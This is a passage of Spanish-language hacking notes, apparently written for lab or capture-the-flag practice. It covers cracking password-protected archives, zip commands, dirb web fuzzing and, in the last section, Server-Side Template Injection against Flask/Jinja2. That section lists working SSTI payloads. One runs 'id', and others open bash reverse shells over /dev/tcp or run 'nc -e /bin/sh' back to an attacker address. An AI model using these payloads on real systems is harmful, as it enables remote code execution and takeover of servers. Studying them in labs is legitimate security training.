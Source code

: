 -------------------------------------------------------------------------------

## 9.- A veces nos encontraremos con archivos comprimidos que tienen contraseña, podemos utilizar las herramientas de fcrackzip o JohnTheRipper

ruta del archivo para revisar el uso de las herramientas:

E:\Hacking\APUNTES\ARCHIVOS-COMPRIMIDOS-CON-CONTRASEÑA.txt

-------------------------------------------------------------------------------

## 10.- Descomprimir archivos:

.zip:

unzip archivo.zip

10.1.- Comprimir un archivo:

zip archivo.zip archivo.php

-------------------------------------------------------------------------------

## 11.- hacer fuzzing web para https:

Herramienta:

dirb

dirb http://172.17.0.2:443 /usr/share/seclists/Discovery/Web-Content/common.txt

-------------------------------------------------------------------------------

## 12.- SSTI -> SSTI (Server Side Template Injection)

buscamos la tecnologia con la que trabaja la web:

para este caso es flask 3.0.1 : ninja2

Descartamos con: 
<h1>Daniel</h1>

{{7*7}}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"').read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c 'bash -i >& /dev/tcp/172.17.0.3/443 0>&1').read() }}

{{request.application.__globals__.__builtins__.__import__('os').popen('nc -e /bin/sh 192.168.1.2 443').read()}}


Tenemos que ver la tecnología con que trabaja la web.
